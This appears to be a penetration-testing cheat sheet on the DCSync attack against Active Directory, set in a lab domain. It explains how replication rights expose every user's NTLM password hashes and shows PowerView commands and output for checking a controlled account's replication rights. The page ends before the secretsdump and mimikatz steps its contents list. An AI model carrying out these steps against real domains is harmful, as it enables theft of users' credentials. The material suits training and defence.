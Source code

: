 ### Content
- [Enumerate DCSync attack using PowerView](#enumerate-dcsync-attack-using-powerview)
- [DCSync attack with secretsdump](#dcsync-attack-with-secretsdump)
- [DCSync attack with mimikatz](#dcsync-attack-with-mimikatz)
---
- DCSync is a technique used to request the passwords of any user from a domain controller through the replication protocol (DRSUAPI) `Directory Replication Service Remote Protocol`.
- It is used by Domain Controllers to replicate domain data including the Active Directory password database. 
- This requires `DS-Replication-Get-Changes-All` and `DS-Replication-Get-Changes` permissions on the domain object
- The attack is beneficial to retrieve the current NTLM password hash for any domain user and the hashes corresponding to their previous passwords.
<img src="/assets/adnunn_right_dcsync.webp" width="65%" height="70%" style="display: block; margin:auto;">
---
#### Enumerate DCSync attack using PowerView
``` PowerShell
# The user that we are in control of
PS C:\> $sid = Convert-NameToSid adunn
PS C:\> $sid
S-1-5-21-3842939050-3880317879-2865463114-1164

# Check adunn's Replication Rights [DS-Replication-Get-Changes, DS-Replication-Get-Changes-All]
# "<Domain_Object_Distinguished_Name>" = "DC=INLANEFREIGHT,DC=LOCAL"
PS C:\> Get-ObjectAcl "<Domain_Object_Distinguished_Name>" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

......[SNIP]......
AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes
```